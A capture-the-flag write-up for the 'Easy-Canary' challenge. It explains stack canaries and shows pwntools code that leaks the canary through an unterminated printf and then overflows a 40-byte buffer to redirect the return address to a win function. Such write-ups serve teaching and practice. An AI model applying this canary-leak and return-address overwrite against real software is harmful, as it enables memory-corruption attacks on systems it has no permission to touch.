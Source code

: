 # Easy-Canary

This challenge consisted of a ret2win, with stack canaries implemented.

## Prerequisites:
Know how buffer overflows work.

## What are stack canaries?
The term comes from the historical use of canaries in coal mines. Since canaries are more vulnerable to toxic gases than humans are, coal miners would bring canary birds with them. When the canary died, they would know that they would also died soon and could safely evacuate the mine.
Stack canaries are "secret" values placed on the stack just before the return address. Attackers usually have the goal of changing the return address with a BOF (buffer overflow), but to do that, the canary must be overwritten as well.
So compilers insert code to the following:

1.Place a random canary value (at program startup) on the stack.
2.Check the canary before returning from a function.
3.If the canary is corrupted, terminate the program (usually with via \_\_stack_chk_fail()).

For more information, check out this article: https://ctf101.org/binary-exploitation/stack-canaries/

## What was the vulnerability?
In easy-canary there is a buffer-overflow opportunity to buf. The buf has a size of 40 bytes, but we can insert 256 bytes. This leads us to try to overwrite the return address with a simple BOF. However, since the canary is present, a simple BOF won't work, the program will just crash, because the canary value won't stay the same.

### Just a bit more theory.
Before we dive into the exploit we need to understand how the printf() works in C.
Imagine we have a sentence like this:

`"Hey we are Capitão Sapinhas and we are a ctf team we love to do ctfs"`

What's missing here? Punctuation! If we asked someone to read the first sentence they would not know that it stops at "ctf team" because there is no period.
The way that printf() works is exactly the same. For printf() to know where to stop printing stuff it needs to have a "period", in this case a null byte "\x00". Strings are null terminated (ex: "car\x00"), so functions like printf() know where to stop printing data and not reveal any sensitive information.

Now that we have that out of the way we can understand the exploit.

First part:
```
io.sendlineafter(b'> ', b'1')
payload = \x00 \* 40 + b"x"
io.send(payload)
```

In this snippet all we do is fill the buffer with 40 null bytes, and one "x".
Visually speaking

Before the attack:

`
[buffer(40 bytes)][canary(eg:"\x00\xFF\xFF\xFF\xFF\xFF\xFF\xFF)][returnaddress]
`

After the attack:

`
[buffer(filled)][canary(eg:"x\xFF\xFF\xFF\xFF\xFF\xFF\xFF)][returnaddress]
`

The printf function, instead of stopping printing at the canary, since there is no null byte, it will actually print the canary!
```
io.sendlineafter(b'> ', b'2')
io.recvuntil(payload)
canary = u64(b'\0' + io.recv(7))
log.info(f'{canary = :#0x}')
```
We print the actual canary with the "Printf your name" function. We have the canary!! Now all we have to do is a buffer overflow but replacing the canary with the value we know so that the program won't crash.
```
win = elf.symbols["win"]
print(hex(win))

payload2 = b"a" _ 40 + p64(canary) + b"b" _ 8 + p64(win+4)
print(payload2)

io.sendline(b"1")
io.recv()
io.sendline(payload2)
io.recv()
io.sendline(b"3")
io.interactive()
```

payload2 is filling the buffer, inserting the canary and changing the return address to the win function.
When we exit, the program will return to the win function.
